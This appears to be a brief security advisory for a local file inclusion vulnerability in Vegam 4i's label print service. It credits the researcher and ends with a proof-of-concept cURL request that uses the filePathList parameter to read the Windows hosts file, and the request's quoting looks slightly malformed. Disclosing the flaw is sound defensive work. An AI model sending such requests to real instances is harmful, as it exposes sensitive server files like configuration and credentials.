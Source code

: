 ## Vegam 4i 

### Version affected <=6.3.47.0
___
<br>
The print label function in Vegam 4i is vulnerable to a Local file Inclusion vulnerability via the filePathList parameter, allowing an malicious user to include files on web server such as web.config, etc/host leading to sensitive information disclosure.

This vulnerability was discovered by Rahul Kadavil from Henkel Cyber Security

<br>
cURL command:

```curl
curl -i -s -k -X $'POST' -H $'Cookie:' -H $'CSRF-Token:' --data-binary $'\0xd\0xa{\"filePathList\":[\"C:/Windows/System32/Drivers/etc/hosts\"],\"iterationCount\":4,"\labelNumberList":[]\0xd\0xa} $'https://your_instance/iPAS/WebServices/ipas_LabelPrintService.asmx/GenerateLabelPDFZip'
```

